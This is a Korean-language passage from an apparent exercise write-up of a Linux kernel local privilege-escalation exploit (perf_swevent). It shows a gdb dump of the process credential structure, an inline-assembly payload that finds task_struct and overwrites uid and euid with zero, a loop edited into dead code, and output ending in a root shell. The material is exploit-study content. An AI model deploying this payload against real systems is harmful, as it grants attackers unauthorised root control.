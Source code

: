 **real_cred**
```sh
(gdb) p *$1.task.real_cred
$4 = {usage = {counter = 3}, uid = 1001, gid = 1001, suid = 1001,
  sgid = 1001, euid = 1001, egid = 1001, fsuid = 1001, fsgid = 1001,
  securebits = 0, cap_inheritable = {cap = {0, 0}}, cap_permitted = {
    cap = {0, 0}}, cap_effective = {cap = {0, 0}}, cap_bset = {cap = {
      4294967295, 4294967295}}, jit_keyring = 0 '\000',
  thread_keyring = 0x0 <irq_stack_union>,
  request_key_auth = 0x0 <irq_stack_union>,
  tgcred = 0xffff8800795d5300, security = 0xffff88007a05fb60,
  user = 0xffff88003647bf80,
  user_ns = 0xffffffff81c25700 <init_user_ns>,
  group_info = 0xffff88007618fa40, rcu = {
    next = 0x0 <irq_stack_union>, func = 0x0 <irq_stack_union>}}
(gdb)
```

`real_cred`의 `uid`와 `euid`가 `1001`로 정확하게 들어가 있는 것을 확인할 수 있다.
이제 `real_cred` 구조체의 주소를 자동으로 구해야 한다.
나는 아래와 같이 인라인 어셈블리를 사용하여 수정해서 자동화에 성공했다.

```c
void __attribute__((regparm(3))) payload() {
        asm(
                "pushq %rax;"                                   /* save Registers */
                "pushq %rcx;"
                "movq $0xffffffffffffffff, 0xffffffff81ef5940;" /* set perf_swevent_enabled = -1 */
                "movq %rsp, %rax;"                              /* get SP */
                "movq $0xFFFFFFFFFFFFE000, %rcx;"               /* calc THREAD_SIZE */
                "andq %rcx, %rax;"                              /* calc thread_info */
                "movq (%rax), %rcx;"                            /* get task_struct */
                "movq 0x458(%rcx), %rax;"                       /* get real_cred */
                "movl $0, 0x04(%rax);"                          /* set  uid */
                "movl $0, 0x14(%rax);"                          /* set euid */
                "popq %rcx;"                                    /* restore Registers */
                "popq %rax;"
        );
}
```

**for문 블럭 안의 내용 dead code화 (j < 0)**
```c
for (j = 0; j < 0; j++) {
	needle = AB(j+1);
	printf("j:      %x\n", j);
	printf("needle: %lx\n", needle);
	assert(p = memmem(code, 1024, &needle, 8));
	*p = !j ? (idt.addr + int_n * 16 + 8) : targets[target][j];
}
```

**result**
```sh
test@ubuntu:~/exercises/perf$ ./vnik 2
IDT addr = 0xffffffff81dd6000
Using int = 4 with offset = -49077
root@ununtu:~/exercises/perf#
```


[^x64_syscall_table]: <https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/>